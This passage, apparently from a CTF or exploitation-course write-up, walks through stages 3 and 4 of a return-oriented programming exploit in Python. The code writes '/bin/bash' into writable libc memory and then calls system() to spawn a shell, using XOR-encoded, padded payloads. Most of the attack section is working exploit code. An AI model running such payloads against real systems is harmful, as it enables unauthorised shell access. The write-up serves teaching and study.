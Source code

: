 ```python
    log.info("Stage 2 sent!")
```

## Reading Bash String into Memory

To get the string `"/bin/bash"` into memory, we find a valid address to write to
in libc. The offset `0x1ad050` into libc is writable and so we pick that. Now,
we can craft a ROP chain that calls `read(0, 0x1ad050, 10)` to read 10 bytes
from `stdin`.

```python
    # Create the rop chain for stage 3
    rop3  = p32(read_addr)
    rop3 += p32(pppret)
    rop3 += p32(0)
    rop3 += p32(writable_addr)
    rop3 += p32(10)
    rop3 += p32(main_addr)

    # Create and encode the payload for stage 3
    payload3 = "A"*24 + rop3
    payload3 = payload3.ljust(52, "\x90")
    payload3 = xor(payload3, 0xbe)

    # Launch the third stage of the attack
    comm.write(payload3)
    log.info("Stage 3 sent!")

    # Provide the /bin/bash string
    p.send("/bin/bash\x00")
    log.info("\"/bin/bash\": 0x%x" % writable_addr)
```

## Calling System

The ROP chain to call `system("/bin/bash")` is almost identical to the one in
task 1.

```python
    # Create the rop chain for stage 4
    rop4  = p32(system_addr)
    rop4 += p32(exit_addr)
    rop4 += p32(writable_addr)

    # Create and encode the payload for stage 4
    payload4 = "A"*24 + rop4
    payload4 = payload4.ljust(52, "\x90")
    payload4 = xor(payload4, 0xbe)

    # Launch the fourth stage of the attack
    comm.write(payload4)
    log.info("Stage 4 sent!")
```
